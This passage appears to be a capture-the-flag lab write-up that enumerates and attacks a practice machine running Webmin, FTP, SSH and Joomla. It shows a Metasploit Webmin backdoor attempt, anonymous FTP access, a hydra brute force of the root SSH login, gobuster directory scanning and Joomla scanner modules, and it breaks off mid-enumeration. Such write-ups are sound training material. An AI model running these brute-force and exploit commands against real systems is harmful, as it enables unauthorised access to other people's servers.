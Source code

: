 		phpMyWebmin 1.0 - 'window.php' Remote File Inclusion                                                              | exploits/php/webapps/2451.txt
		webmin 0.91 - Directory Traversal                                                                                 | exploits/cgi/remote/21183.txt
		------------------------------------------------------------------------------------------------------------------ ----------------------------------------
		Shellcodes: No Result
		```-
	2. `Metasploit
		* Try `exploit/linux/http/webmin_backdoor`
		```
		set lhost 10.9.53.2
		set ssl true
		set rhosts 10.10.30.252
		set srvhost 10.9.53.2
		check
		[*] 10.10.30.252:10000 - The target is not exploitable.
		```
	3. **Can you exploit the service running on that port? (yay/nay answer)** `nay`
4. Enumerate FTP (Anon Login Enabled): `ftp 10.10.30.252`
	1. `ls -la` finds `.info.txt`. `get .info.txt` and `cat .info.txt` shows `Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!`
	2. Decode with [quipquip](https://www.quipqiup.com/) gets `	Just wanted to see if you find it. Lol. Remember: Enumeration is the key!`
	3. **File extension after anon login** `txt`
5. SSH Bruteforce: `sudo hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://10.10.30.252:55007 -t 40 -V` found nothing.
6. Bruteforce `http://10.10.30.252` with gobuster: `gobuster dir -u http://10.10.30.252 -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt` find `/joomla/` directory
	* **What's CMS can you access?** `joomla`
	* It might be benneficial to run both `dirbuster` and `gobuster` on future assessments.
6. Joomla
	1. Get version with metasploit:
		```
		use auxiliary/scanner/http/joomla_version
		set rhosts 10.10.30.252
		set targeturi /joomla
		run
		```
		
		Results:
		```
		[*] Server: Apache/2.4.18 (Ubuntu)
		[+] Joomla version: 3.9.12-dev
		[*] Scanned 1 of 1 hosts (100% complete)
		[*] Auxiliary module execution completed
		```
	2. Search google for `joomla 3.9.12-dev exploit` finds none
	3. Get plugins with metasploit
		```
		use auxiliary/scanner/http/joomla_plugins
		set rhosts 10.10.30.252
		set targeturi /joomla
		run
		```
		